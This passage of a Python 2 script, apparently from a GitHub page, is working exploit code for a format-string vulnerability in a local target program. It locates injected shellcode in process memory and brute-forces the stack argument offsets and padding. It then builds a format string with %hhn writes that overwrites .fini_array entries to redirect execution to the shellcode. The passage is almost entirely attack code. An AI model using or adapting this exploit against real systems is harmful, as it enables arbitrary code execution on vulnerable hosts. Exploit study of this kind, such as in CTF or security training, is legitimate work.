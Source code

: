 ```python
                        offset = int(line.split(":")[0], 16) + 10
                        print "[*] Shellcode is at address", hex(offset), "in process memory"
                        break
        except subprocess.CalledProcessError:
            continue
    if offset:
        break

if not offset:
    print "[!] Can't find shellcode in process memory"
    sys.exit()

addresses = struct.pack("I", fini_array_start)
addresses += struct.pack("I", fini_array_start + 1)
addresses += struct.pack("I", fini_array_start + 2)
addresses += struct.pack("I", fini_array_start + 3)

def split_addr(n):
    result = []
    n1 = n & 0xFF
    n2 = (n >> 8) & 0xFF
    n3 = (n >> 16) & 0xFF
    n4 = (n >> 24) & 0xFF
    while n1 <= 16:
        n1 += 0x100
    result.append(n1 - 16)
    while n2 <= n1:
        n2 += 0x100
    result.append(n2 - n1)
    while n3 <= n2:
        n3 += 0x100
    result.append(n3 - n2)
    while n4 <= n3:
        n4 += 0x100
    result.append(n4 - n3)
    return result

found = False
arg = ""

# Looking for correct args positions and padding
for padding in xrange(0, 4):
    for i in xrange(500):
        arg = "AAAABBBBCCCCDDDD%008x%{0}$.8x%008x%{1}$.8x%008x%{2}$.8x%008x%{3}$.8x012345678912".format(just(i), just(i+1), just(i+2), just(i+3)) + "Z" * padding
        try:
            output = subprocess.check_output([TARGET, arg])
        except subprocess.CalledProcessError:
            continue
        if '41414141' in output and '42424242' in output and '43434343' in output and '44444444' in output:
            print "[*] Buffer starts at offset #", i, "with", padding, "bytes of padding"
            print "[*] String used is:", arg, 'length =', len(arg)
            print "[*] ===== output ====="
            print output
            print "[*] =================="

            # Generating evil format string
            values = split_addr(offset)
            arg  = addresses
            arg += "%{0}c%{1}$hhn%{2}c%{3}$hhn%{4}c%{5}$hhn%{6}c%{7}$hhn012345678912".format(just(values[0]), just(i), just(values[1]), just(i+1), just(values[2]), just(i+2), just(values[3]), just(i+3))
```